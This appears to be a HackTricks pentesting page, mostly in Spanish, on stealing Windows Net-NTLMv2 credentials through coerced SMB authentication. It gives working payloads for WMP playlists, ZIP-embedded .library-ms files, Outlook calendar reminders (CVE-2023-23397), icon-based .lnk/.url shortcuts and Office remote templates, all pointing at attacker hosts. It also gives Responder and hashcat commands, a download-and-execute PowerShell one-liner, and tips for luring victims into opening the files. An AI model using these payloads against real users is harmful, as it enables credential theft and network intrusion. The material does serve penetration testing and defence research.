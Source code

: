 # Lugares para robar NTLM creds

{{#include ../../banners/hacktricks-training.md}}

**Consulta todas las grandes ideas de [https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/) desde la descarga de un archivo Microsoft Word en línea hasta la fuente de ntlm leaks: https://github.com/soufianetahiri/TeamsNTLMLeak/blob/main/README.md y [https://github.com/p0dalirius/windows-coerced-authentication-methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)**


### Windows Media Player playlists (.ASX/.WAX)

Si puedes lograr que un objetivo abra o previsualice una Windows Media Player playlist que controlas, puedes leak Net‑NTLMv2 apuntando la entrada a una UNC path. WMP intentará obtener el media referenciado vía SMB y se autenticará implícitamente.

Ejemplo de payload:
```xml
<asx version="3.0">
<title>Leak</title>
<entry>
<title></title>
<ref href="file://ATTACKER_IP\\share\\track.mp3" />
</entry>
</asx>
```
Flujo de recopilación y cracking:
```bash
# Capture the authentication
sudo Responder -I <iface>

# Crack the captured NetNTLMv2
hashcat hashes.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```
### ZIP-embedded .library-ms NTLM leak (CVE-2025-24071/24055)

El Explorador de Windows maneja de forma insegura los archivos .library-ms cuando se abren directamente desde un archivo ZIP. Si la definición de la biblioteca apunta a una ruta UNC remota (p. ej., \\attacker\share), simplemente navegar/abrir el .library-ms dentro del ZIP hace que el Explorador enumere la UNC y emita autenticación NTLM al atacante. Esto genera un NetNTLMv2 que puede ser crackeado offline o potencialmente relayed.

Minimal .library-ms pointing to an attacker UNC
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<version>6</version>
<name>Company Documents</name>
<isLibraryPinned>false</isLibraryPinned>
<iconReference>shell32.dll,-235</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<simpleLocation>
<url>\\10.10.14.2\share</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
Operational steps
- Create the .library-ms file with the XML above (set your IP/hostname).
- Zip it (on Windows: Send to → Compressed (zipped) folder) and deliver the ZIP to the target.
- Run an NTLM capture listener and wait for the victim to open the .library-ms from inside the ZIP.


### Outlook calendar reminder sound path (CVE-2023-23397) – zero‑click Net‑NTLMv2 leak

Microsoft Outlook for Windows procesaba la propiedad MAPI extendida PidLidReminderFileParameter en los elementos del calendario. Si esa propiedad apunta a una ruta UNC (por ejemplo, \\attacker\share\alert.wav), Outlook contactaría la share SMB cuando se active el recordatorio, leakando el Net‑NTLMv2 del usuario sin ningún click. Esto se parcheó el 14 de marzo de 2023, pero sigue siendo muy relevante para flotas legacy/inalteradas y para la respuesta a incidentes histórica.

Quick exploitation with PowerShell (Outlook COM):
```powershell
# Run on a host with Outlook installed and a configured mailbox
IEX (iwr -UseBasicParsing https://raw.githubusercontent.com/api0cradle/CVE-2023-23397-POC-Powershell/main/CVE-2023-23397.ps1)
Send-CalendarNTLMLeak -recipient user@example.com -remotefilepath "\\10.10.14.2\share\alert.wav" -meetingsubject "Update" -meetingbody "Please accept"
# Variants supported by the PoC include \\host@80\file.wav and \\host@SSL@443\file.wav
```
Lado del Listener:
```bash
sudo responder -I eth0  # or impacket-smbserver to observe connections
```
Notas
- Una víctima solo necesita tener Outlook for Windows en ejecución cuando se activa el recordatorio.
- El leak proporciona Net‑NTLMv2 adecuado para offline cracking o relay (no pass‑the‑hash).


### .LNK/.URL basado en iconos zero‑click NTLM leak (CVE‑2025‑50154 – bypass of CVE‑2025‑24054)

Windows Explorer renderiza automáticamente los iconos de los accesos directos. Investigaciones recientes mostraron que incluso después del parche de Microsoft de abril de 2025 para atajos UNC‑icon, todavía era posible desencadenar autenticación NTLM sin hacer clic alojando el objetivo del acceso directo en una ruta UNC y manteniendo el icono local (patch bypass asignado CVE‑2025‑50154). Simplemente ver la carpeta hace que Explorer recupere metadatos del objetivo remoto, emitiendo NTLM al servidor SMB del atacante.

Payload mínimo de Internet Shortcut (.url):
```ini
[InternetShortcut]
URL=http://intranet
IconFile=\\10.10.14.2\share\icon.ico
IconIndex=0
```
Payload de acceso directo de programa (.lnk) vía PowerShell:
```powershell
$lnk = "$env:USERPROFILE\Desktop\lab.lnk"
$w = New-Object -ComObject WScript.Shell
$sc = $w.CreateShortcut($lnk)
$sc.TargetPath = "\\10.10.14.2\share\payload.exe"  # remote UNC target
$sc.IconLocation = "C:\\Windows\\System32\\SHELL32.dll" # local icon to bypass UNC-icon checks
$sc.Save()
```
Ideas de entrega
- Coloca el acceso directo en un ZIP y consigue que la víctima lo explore.
- Coloca el acceso directo en un recurso compartido con permisos de escritura que la víctima abrirá.
- Combínalo con otros archivos de cebo en la misma carpeta para que Explorer previsualice los elementos.


### Office remote template injection (.docx/.dotm) to coerce NTLM

Los documentos Office pueden referenciar una plantilla externa. Si configuras la plantilla adjunta a una ruta UNC, al abrir el documento se autenticará con SMB.

Minimal DOCX relationship changes (inside word/):

1) Edita word/settings.xml y añade la referencia a la plantilla adjunta:
```xml
<w:attachedTemplate r:id="rId1337" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships"/>
```
2) Edita word/_rels/settings.xml.rels y apunta rId1337 a tu UNC:
```xml
<Relationship Id="rId1337" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="\\\\10.10.14.2\\share\\template.dotm" TargetMode="External" xmlns="http://schemas.openxmlformats.org/package/2006/relationships"/>
```
3) Reempaqueta a .docx y entrégalo. Ejecuta tu SMB capture listener y espera la apertura.

Para ideas posteriores a la captura sobre relaying o abuso de NTLM, consulta:

{{#ref}}
README.md
{{#endref}}


## Referencias
- [HTB Fluffy – ZIP .library‑ms auth leak (CVE‑2025‑24071/24055) → GenericWrite → AD CS ESC16 to DA (0xdf)](https://0xdf.gitlab.io/2025/09/20/htb-fluffy.html)
- [HTB: Media — WMP NTLM leak → NTFS junction to webroot RCE → FullPowers + GodPotato to SYSTEM](https://0xdf.gitlab.io/2025/09/04/htb-media.html)
- [Morphisec – 5 NTLM vulnerabilities: Unpatched privilege escalation threats in Microsoft](https://www.morphisec.com/blog/5-ntlm-vulnerabilities-unpatched-privilege-escalation-threats-in-microsoft/)
- [MSRC – Microsoft mitigates Outlook EoP (CVE‑2023‑23397) and explains the NTLM leak via PidLidReminderFileParameter](https://www.microsoft.com/en-us/msrc/blog/2023/03/microsoft-mitigates-outlook-elevation-of-privilege-vulnerability/)
- [Cymulate – Zero‑click, one NTLM: Microsoft security patch bypass (CVE‑2025‑50154)](https://cymulate.com/blog/zero-click-one-ntlm-microsoft-security-patch-bypass-cve-2025-50154/)


{{#include ../../banners/hacktricks-training.md}}
